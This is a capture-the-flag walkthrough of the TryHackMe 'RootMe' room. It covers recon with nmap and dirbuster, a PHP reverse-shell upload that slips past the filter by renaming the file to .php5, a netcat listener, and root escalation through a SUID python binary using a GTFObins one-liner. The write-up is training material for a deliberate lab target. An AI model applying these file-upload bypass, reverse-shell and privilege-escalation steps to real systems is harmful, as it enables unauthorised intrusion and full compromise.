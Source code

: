 # RootMe TryHackMe Room
## 1. Recon
```
nmap -sV <machine IP>
```
![recon img](recon.png)<br>
we see that there is an apache web server hosted on the machine. so it is only natural that we try to fuzz it.<br>
we use dirbuster, with the wordlist being:
```
/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```
we stumble across a folder called /panel/ <br>
when we access it, we come across a file upload page <br>
![img uplaod](upload.png)<br>

## 2. gaining access
Lets try uploading a webshell script to this form.<br> 
lets setup a listener for the reverse connection from the machine using:
```
nc -v -n -l -p <desired port>
```
we will be uploading the folowing reverse connection webshell: <br>
```
/usr/share/webshells/php/php-reverse-shell.php
```
Do not forget to change the IP and port to your system's port in the php script's code before uploading. <br>
When trying to upload, it says that PHP is not allowed (in portuguese for some reason). <br>
however, a simple change in the extension works like a charm. simply cannge the extension from php to php5 and it gets accepted with ease. <br>
now, we navigate to the upload folder on the website and click on the webshell that we just uploaded. <br>
![webshell img](file.png) <br>
And hurray! we have succesfully spawned a reverse shell at our listener. <br>
![shell img](shell.png) <br>
it seems that we are in the root directory. perfect!! <br>
The room asks us to enter the contents of user.txt file <br>
to find the file, we run
```
find / -name "user.txt"
```
the file is found in the <b>/var/www</b> folder. the cat command easily reveals the contents of the file.

## 3. privilege escalation
The room tells us to look for binaries with the SUID permission. we look for them with the following command:
```
cd /usr/bin
find . -perm /4000
```
we get the follwing result: <br>
![suid img](suid.png)<br>
we look at GTFObins to look at ways to exploit these binaries.
we find a way to exploit the python binary with the SUID permission to elevate our privileges. <br>
![GTFO img](GTFO.png)<br>
When we run the command: 
```
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
<b>we succesfully spawn a shell with root privileges!!</b><br>
![root img](root.png)<br>
from here, we navigate to the root folder and read the contents of root.txt <br>

with this we clear the room.<br>
<img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/>